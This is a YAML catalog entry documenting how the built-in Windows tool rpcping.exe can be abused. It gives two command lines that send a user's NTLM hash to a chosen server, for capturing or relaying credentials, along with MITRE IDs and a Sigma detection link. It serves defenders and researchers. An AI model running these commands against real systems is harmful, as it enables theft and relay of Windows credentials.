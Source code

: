 ```yaml
---
Name: Rpcping.exe
Description: Used to verify rpc connection
Author: Oddvar Moe
Created: 2018-05-25
Commands:
  - Command: rpcping -s 127.0.0.1 -e 1234 -a privacy -u NTLM
    Description: Send a RPC test connection to the target server (-s) and force the NTLM hash to be sent in the process.
    Usecase: Capture credentials on a non-standard port
    Category: Credentials
    Privileges: User
    MitreID: T1003
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: rpcping /s 10.0.0.35 /e 9997 /a connect /u NTLM
    Description: Trigger an authenticated RPC call to the target server (/s) that could be relayed to a privileged resource (Sign not Set).
    Usecase: Relay a NTLM authentication over RPC (ncacn_ip_tcp) on a custom port
    Category: Credentials
    Privileges: User
    MitreID: T1187
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\rpcping.exe
  - Path: C:\Windows\SysWOW64\rpcping.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_rpcping_credential_capture.yml
Resources:
  - Link: https://github.com/vysec/RedTips
  - Link: https://twitter.com/vysecurity/status/974806438316072960
  - Link: https://twitter.com/vysecurity/status/873181705024266241
  - Link: https://twitter.com/splinter_code/status/1421144623678988298
Acknowledgement:
  - Person: Casey Smith
    Handle: '@subtee'
  - Person: Vincent Yiu
    Handle: '@vysecurity'
  - Person: Antonio Cocomazzi
    Handle: '@splinter_code'
  - Person: ap
    Handle: '@decoder_it'
---
```

